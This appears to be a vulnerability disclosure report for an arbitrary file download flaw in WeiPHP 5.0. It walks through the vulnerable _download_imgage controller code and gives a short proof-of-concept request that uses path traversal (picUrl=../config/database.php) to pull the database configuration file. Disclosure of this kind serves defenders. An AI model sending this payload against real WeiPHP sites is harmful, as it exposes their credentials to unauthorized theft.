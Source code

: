 # Summary
WeiPHP 5.0 (https://github.com/weiphpdev/weiphp5.0) has an arbitrary file download vulnerabiity, which allows attacker to download any files unauthorizedly.

# Details
Vulnerable code is in `application\material\controller\Material.php#_download_imgage`:
![image](https://github.com/user-attachments/assets/a8dc2170-e65d-4dda-b0ec-cb919cdc44dc)

Then we need to find the path of the file, audit the code:
![image](https://github.com/user-attachments/assets/4c741645-7ada-4ea7-812e-2d0fc3d89a26)

```
Picture.php#addFile()
```
![image](https://github.com/user-attachments/assets/13bfa073-ed72-4281-a3e0-ab6d26a3f311)

We find that `insertGetId` is defined in:
![image](https://github.com/user-attachments/assets/84dbc544-3603-4fcd-97e8-a61e912ede7e)

That is to say, the data of file we download is inserted into `Picture` tables in database.

We can find in mysql database:
![image](https://github.com/user-attachments/assets/a6e54f33-56f5-4ba7-a15c-13adae34bbc0)

![image](https://github.com/user-attachments/assets/751631f6-4ee9-43ba-91fe-214faeea7836)

So we search `M('Picture')` and find this `user_pics()`, which is the same as the information leak vulnerability mentioned in https://github.com/N0zoM1z0/Vuln-Search/blob/main/WeiPHP5.0-Information%20Leak.md.

![image](https://github.com/user-attachments/assets/5932bbfa-9ab9-4585-98fe-bb34b4cf6f9a)

We can arbitrary download files, 
```
POST /public/index.php/material/Material/_download_imgage/?media_id=1&picUrl=../config/database.php
```
![image](https://github.com/user-attachments/assets/2be18afe-0cb0-49c0-964b-d62821cc0c3a)


and visit `/public/index.php/home/file/user_pics` to get the files' path.
![image](https://github.com/user-attachments/assets/b7f2f955-e51c-4a11-9c6b-7e9ea6d94595)


Download and open it:
![image](https://github.com/user-attachments/assets/ff728f34-a944-446c-8300-374bd6f68131)

It is the config file we downloaded arbitrarily.

# PoC
```
POST /public/index.php/material/Material/_download_imgage/?media_id=1&picUrl=../config/database.php
```
![image](https://github.com/user-attachments/assets/2be18afe-0cb0-49c0-964b-d62821cc0c3a)

Visit `/public/index.php/home/file/user_pics` and download it.
![image](https://github.com/user-attachments/assets/ff728f34-a944-446c-8300-374bd6f68131)
